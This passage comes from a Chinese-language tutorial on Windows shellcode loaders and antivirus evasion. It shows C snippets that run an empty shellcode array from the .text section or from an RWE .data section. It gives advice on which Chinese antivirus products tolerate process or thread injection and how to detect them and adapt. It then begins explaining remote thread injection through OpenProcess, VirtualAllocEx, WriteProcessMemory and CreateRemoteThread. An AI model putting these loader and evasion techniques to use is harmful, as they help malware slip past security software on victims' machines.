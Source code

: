 我们希望我们的 shellcode 被分配在可执行文件的.text 部分中，这样就不需要分配 RWX 内存块来存储 shellcode。此外，  
我们需要将 shellcode 数组强制转换为函数指针并调用它-

```php
#pragma section(".text")

__declspec(allocate(".text")) char goodcode[] = {  };

int main()
{
    //(*(void(*)())(&goodcode))();
    ((void(*)())(&goodcode))();
}
```

利用

设置 data 段可写 执行 shellcode

```php
#include <Windows.h>

#pragma comment(linker, "/section:.data,RWE")//设置 data 段可写，就这么短短一行代码
unsigned char shellcode[] = {  };
//全局变量会保存在.data 中，

int main()

{
    ((void(*)())(void*)shellcode)();//执行 shellcode
}
```

#### 5.远程线程注入

**\*火绒对于线程注入的操作并不敏感，但是某数字杀软晶核的环境下除了高信誉的白名单以外不要尝试进程或者线程注入**

**我们也可以通过 CreateToolhelp32Snapshot 去获取系统中正在运行的进程信息，线程信息然后进行判断，如果是火绒的环境就进行注入，如果是某数字杀软的环境就指针执行或者是注入自身 (某数字杀软任何注入自身没有威胁)**

我们先学习一下前置知识：

使用远程线程注入，我们需要使用 4 个主要函数：OpenProcess, VirtualAllocEx, WriteProcessMemory，CreateRemoteThread

**思路:**

1.  打开远程进程的句柄（pid）(OpenProcess)
2.  使用 VirtualAllocEx 在远程进程中分配具有读、写和执行必要权限的内存空间
3.  然后使用 WriteProcessMemory 将 shellcode 写入到内存缓冲区中
4.  最后通过调用 CreateRemoteThread 来创建远程线程

主要是了解一下每一个 windowsAPI 的功能和传入的参数

1、OpenProcess

```php
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
```
